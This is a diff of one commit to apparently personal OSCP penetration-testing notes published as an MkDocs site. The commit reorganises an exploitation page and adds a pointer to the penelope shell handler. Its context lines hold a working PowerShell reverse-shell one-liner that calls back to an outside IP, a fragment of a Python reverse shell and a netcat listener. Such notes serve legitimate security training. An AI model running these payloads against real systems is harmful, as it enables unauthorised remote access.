

Before and after one commit to krovs/oscp-notes, an MkDocs documentation site: the page built from docs/13_exploitation.md, in a window 1280 px wide and 1400 px high, scrolled down 987 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2228 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Add penelope option

````diff
--- a/docs/13_exploitation.md
+++ b/docs/13_exploitation.md
@@ -1,6 +1,6 @@
 # 💣 Exploitation
 
-## Locating public exploits
+## Locating Public Exploits
 
 ```shell
 # search for an exploit
@@ -15,6 +15,16 @@ searchsploit -m <id>
 # NSE
 locate .nse | grep <name>
 nmap --script-help <name>
+```
+
+### Check Connectivity
+
+```shell
+# in kali
+sudo tcpdump -i tun0 icmp
+
+# from the target
+ping -c1 <kali_ip>
 ```
 
 ## Reverse Shells
@@ -55,16 +65,6 @@ socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.
 $client = New-Object System.Net.Sockets.TCPClient("192.168.45.230",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
 ```
 
-### Check Connectivity
-
-```shell
-# in kali
-sudo tcpdump -i tun0 icmp
-
-# from the target
-ping -c1 <kali_ip>
-```
-
 ### Upgrade a Reverse Shell into a full TTY
 
 Spawn a TTY Shell
@@ -100,3 +100,11 @@ stty rows 40 columns 100
 ```shell
 rlwrap nc -lnvp 4444
 ```
+
+### Other options
+
+If the fully interactive shell can't be achieved and it's impossible to edit a file, [penelope](https://github.com/brightio/penelope) can hep.
+
+```shell
+python penelope.py 80
+```
````
